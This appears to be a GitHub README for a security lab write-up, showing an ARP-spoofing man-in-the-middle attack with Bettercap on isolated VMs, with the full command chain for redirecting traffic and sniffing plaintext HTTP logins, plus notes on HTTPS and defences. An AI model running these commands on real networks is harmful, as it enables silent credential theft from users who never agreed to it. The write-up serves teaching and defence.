


# ARP MITM Lab — Credential Interception via ARP Spoofing

> ⚠️ **Lab environment only.** Performed entirely on isolated virtual machines (Kali Linux attacker + Windows victim) on a private NAT network I control. Never run against networks or devices you don't own or have explicit permission to test.

## Overview
A hands-on demonstration of a classic Man-in-the-Middle (MITM) attack using ARP spoofing to intercept plaintext HTTP credentials between a victim machine and the network gateway.

## What This Demonstrates
- Understanding of Layer 2 networking and ARP's lack of authentication
- Practical MITM positioning using Bettercap
- Live traffic interception and credential capture
- Why HTTPS matters, and why open Wi-Fi is risky

## Environment
- **Attacker:** Kali Linux (VM)
- **Victim:** Windows 10 (VM)
- **Network:** Isolated NAT (VMware), both VMs on the same subnet
- **Tool:** Bettercap

## Attack Chain

### 1. Network Setup
Both VMs placed on the same NAT network so ARP traffic between them is visible.

### 2. Enable IP Forwarding
```
sudo sysctl -w net.ipv4.ip_forward=1
```
Keeps the victim's internet connection alive while traffic is routed through the attacker — makes the attack invisible.

### 3. Network Discovery
```
sudo bettercap -iface eth0
net.probe on
net.show
```

*Identifying the gateway and victim IP/MAC addresses on the LAN.*

### 4. ARP Spoofing
```
set arp.spoof.targets 192.168.216.130
arp.spoof on
```


*Kali now sits between the victim and the gateway — spoofing both sides' ARP tables.*

### 5. Traffic Interception
```
net.sniff on
http.proxy on
```
Victim logs into a test HTTP login page. Credentials are captured in plaintext.


*Plaintext POST request showing intercepted username and password.*

### 6. Cleanup
```
arp.spoof off
http.proxy off
net.sniff off
```
```
sudo sysctl -w net.ipv4.ip_forward=0
```

## Key Findings

**Why no browser warning appeared:** The target site used HTTP, not HTTPS — no certificate involved, so there's nothing for the browser to flag. ARP spoofing only redirects traffic; it doesn't touch TLS.

**Would HTTPS have stopped this:** Yes, for reading the password itself. The traffic would still be intercepted, but encrypted — I'd see ciphertext, not the credentials. Defeating that requires SSL stripping or certificate spoofing, which typically does trigger warnings.

**Why this is dangerous on public Wi-Fi:** Everyone shares a subnet with no isolation between clients, users often trust the network and hit HTTP sites, and most people aren't running a VPN. One attacker with Bettercap can silently harvest credentials from multiple people at once.

## What I'd Improve
- Add DNS spoofing to redirect victim traffic to a controlled page
- Test against a site using HTTPS + HSTS to confirm the attack fails as expected
- Add a defense demo: static ARP entries on the victim to block the attack

## Disclaimer
Built for educational purposes in a fully isolated lab. Do not use against networks or systems without explicit authorization.
